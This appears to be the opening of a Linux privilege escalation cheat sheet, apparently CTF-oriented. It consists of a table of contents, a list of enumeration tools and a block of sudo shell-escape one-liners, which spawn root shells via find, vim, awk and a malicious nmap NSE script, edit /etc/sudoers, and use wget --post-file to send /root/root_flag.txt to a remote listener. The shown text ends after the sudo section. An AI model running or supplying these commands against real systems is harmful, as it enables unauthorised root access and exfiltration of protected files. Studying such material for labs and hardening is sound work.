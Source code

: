 # Privilege escalation cheatsheets

## Resources
- [Sudo Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/)

## Summary
* [Automation for privilege escalation](#automate-enumeration-for-privilege-escalation)
* [Exploiting Sudo](#sudo)
* [Exploiting kernel version](#kernel)
* [Exploiting nmap](#nmap)
* [Exploiting SetUID](#setuid)
	* [Base64 Setuid](#base64-setuid)
	* [Doas Setuid](#doas-setuid)
* [Exploiting capabilities](#capabilities)
	* [List capabilities](#list-capabilities)
	* [Vim capabilities](#vim-capabilites-for-cap_setuid)
	* [Ruby capabilities](#ruby-capabilities-for-cap_chown)
* [Exploiting cron jobs](#exploiting-cron-jobs)
* [Exploiting NFS](#exploiting-nfs)
* [Exploiting tar wildcard](#tar-wildcard)
* [Rewrite /etc/passwd](#rewrite-/etc/passwd)
* [SSH welcome interface](#/etc/update-motd.d-for-ssh-welcome-interface)
* [Modify PATH variable](#modify-path-variable)
* [Soft links files](#soft-link-files-for-privilege-escalation)
* [Exploiting LD_PRELOAD](#env_keepld_preload)
* [OpenSSL library loads](#openssl-capabilities-library-load)
* [Exploit Sudo services](#exploit-sudo-program)
* [Exploit NO_ROOT_SQUASH on NFS](#exploit-no_root_squash-on-nfs)
* [Exploit NFS with UID & GID](#exploit-nfs-with-uid--gid)
* [PYTHONPATH hijacking](#pythonpath-hijacking)

## Automate enumeration for privilege escalation
```
LinPeas
LinEnum
Les
LinuxSmartEnumeration
LinuxPrivChecker
```

## Sudo
```
sudo [filename] stdin exec:/bin/bash
sudo find /etc/passwd -exec /bin/sh \;
sudo vim -c '!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
sudo nano /etc/sudoers
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://[ip]:[port]    {set up a listener in local host}
```
